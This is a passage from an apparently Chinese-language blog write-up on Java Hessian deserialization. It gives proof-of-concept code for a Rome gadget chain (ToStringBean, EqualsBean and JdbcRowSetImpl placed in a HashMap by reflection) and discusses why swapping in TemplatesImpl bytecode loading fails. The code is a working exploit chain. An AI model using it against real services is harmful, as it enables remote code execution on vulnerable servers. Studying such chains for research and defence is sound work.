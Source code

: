```
        ToStringBean toStringBean = new ToStringBean(JdbcRowSetImpl.class,jdbcRowSet);
        EqualsBean equalsBean = new EqualsBean(ToStringBean.class,toStringBean);

        HashMap s = new HashMap();
        s.put("a",1);
        Field field = s.getClass().getDeclaredField("table");
        field.setAccessible(true);
        Object[] table = (Object[]) field.get(s);
        // hashmap的索引会根据key的值而变化，如果要改前面的key的话，这里的索引可以用调试的方式改一下
        Object node = table[1];
        Field keyField;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }
        keyField.setAccessible(true);
        if (keyField.get(node) instanceof String){
            keyField.set(node,equalsBean);
        }

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream);
        hessian2Output.writeObject(s);
        hessian2Output.close();

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
        Hessian2Input hessian2Input = new Hessian2Input(byteArrayInputStream);
        hessian2Input.readObject();
    }
}
```

## 遇到的问题

确实都知道，在Rome链中，我们是去通过加载字节码的方式进行命令执行的，但是我把这里修改成TemplatesImpl类加载字节码的时候，却在这里报错了

![image-20230309225742859](images/25.png)

在su18的文章中提到，HashMap 在 put 键值对时，将会对 key 的 hashcode 进行校验查看是否有重复的 key 出现，这就将会调用 key 的 hasCode 方法，如下图。

![image-20230309225830290](images/26.png)

而 TreeMap 在 put 时，由于要进行排序，所以要对 key 进行比较操作，将会调用 compare 方法，会调用 key 的 compareTo 方法。

![image-20230311170031319](images/27.png)



![image-20230309225839946](images/28.png)
